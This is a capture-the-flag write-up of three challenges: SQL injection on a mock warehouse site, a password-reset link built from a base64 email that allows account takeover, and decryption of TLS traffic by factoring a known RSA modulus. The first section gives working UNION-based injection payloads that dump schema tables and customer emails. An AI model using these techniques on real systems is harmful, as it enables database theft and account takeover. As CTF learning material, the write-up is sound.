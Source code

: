 # Web

## Stockos

Our first goal, given by Jérémy Nitel, was to search for creditentials in a broken warehouse's website named Stockos. The messages also indicates that Stockos has its admin password leaked multiple times and that it was a simple one.

When landing on the provided link (https://challengecybersec.fr/4e9033c6eacf38dc2a5df7a14526bec1/), we stumble upon a login page. Remembering the easy password, we tried `admin` as login and password. Bingo! It was right, we are now logged on as the admin. We cannot do much except change some personal infos about the admin and list the orders from the warehouse. Interestingly, there is a search function, this got us and idea to try for an SQL injection.

And so we did, by trying different character sets, we found out that `' AND 1=1 -- '` works. We then supposed that the request was written like this:
```sql
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='<our input text>%' ORDER BY section ASC
-- With our input text:
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 1=1 -- '%' ORDER BY section ASC;
```
Now, with a door to enter, we can use the keyword `UNION` to append new information on the tables. One very interesting table name to look for is `information_schema.tables`. This is a table that lists all tables.
```sql
-- <' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '%' ORDER BY section ASC
```
With every tables listed, we can check the `customer` table. We still need the column names and the table `information_schema.columns` can help us.
```sql
-- <' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '%' ORDER BY section ASC
```
The request above will print the name of every column of `customer`. `name` and `email` are very useful.
```sql
-- <' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '%' ORDER BY section ASC
```
This last SQL request will print the list of each customer's name and email. And there lays the email we are looking for: `agent.malice@secret.evil.gov.ev`. We can now go try the rest of the challenge.

*__Note__: The end of the SQL request can be leaked by creating a malformed request like `'`. You can also find that this is a MySQL server. The numbers `1` to `5` in SQL requests are special name for dummy columns.*

## Evil Air

This plane ticket bookmarking website were also given by Mr. Nitel (https://www.challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/). We had to book a plane ticket from `Bad City` to `Evil City` at thoses dates `26/10/2020` -> ` 28/10/2020` (French Date Format).

When we tried to book the ticket, it asked us to login / register on the site. If you register with a standard mail / username email, you will be denied from accessing the order page, and accessing the QR Code that contain the flag to going further. You thne get an activation link: http://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/activate/ZXhhbXBsZS5leGFtcGxlQHRlc3QuY29t

Then we looked at the reset password form, and the link were the same with the sole variation: instead of `activate` you have `reset`. We digged more the link and discovered that the last part of the link was a base64 hash of the account email address (this link is the hash of `example.example@test.com`). We replaced the fake account with the base64 hash of the email we were looking for on stockos (http://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/reset/YWdlbnQubWFsaWNlQHNlY3JldC5ldmlsLmdvdi5ldg==), then it displayed the password, and allowed us to order the ticket. It then shows the QR code containing the flag `DGSESIEE{2cd992f9b2319860ce3a35db6673a9b8}`.

<p align="center">
    <img width=25% src="./flag.png" alt="Rank: 153 - Team: Sagliss - Last Validation: 08/11 - Points: 450">
</p>

When provinding the flag, Nitel responded with a `.pcap` file.

## TLS

The next challenge is about decypting a conversation between a client and a server. The data is stored in [capture.pcap](./capture.pcap). One can see that the conversation is done via TLS. The issue is that TLS data can be encrypted (and it is the case here). The conversation is done via `TLS_RSA_WITH_AES_128_CBC_SHA` which is crackable if someone can crack the RSA key of the server. The `PublicKey` is available under the `Certificate` exchange and one can found the following number for `n`:
```
(hex) 0x00c2cbb24fdbf923b61268e3f11a3896de4574b3ba58730cbd652938864e2223eeeb704a17cfd08d16b46891a61474759939c6e49aafe7f2595548c74c1d7fb8d24cd15cb23b4cd0a3
(dec) 188198812920607963838697239461650439807163563379417382700763356422988859715234665485319060606504743045317388011303396716199692321205734031879550656996221305168759307650257059
```
While browsing for solutions, we found that this peculiar number was a factorisation challenge called [RSA-576](https://en.wikipedia.org/wiki/RSA_numbers#RSA-576) that yields these results:
```
188198812920607963838697239461650439807163563379417382700763356422988859715234665485319060606504743045317388011303396716199692321205734031879550656996221305168759307650257059
=
398075086424064937397125500550386491199064362342526708406385189575946388957261768583317
x
472772146107435302536223071973048224632914695302097116459852171130520711256363590397527
```
The python script [rsa_gen.py](./rsa_gen.py) (Requires [rsa](https://pypi.org/project/rsa/)) will generate a private key file that will be used by Wireshark to decrypt the [TLS](https://wiki.wireshark.org/TLS?action=show&redirect=SSL).
```
$ python rsa_gen.py private.pem
```
When decrypting the TLS with this private key, we can find that the user was accessing the page `/7a144cdc500b28e80cf760d60aca2ed3` but resulted in a 404. And this is the link to the Coros CTF (https://ctf.challengecybersec.fr/7a144cdc500b28e80cf760d60aca2ed3)
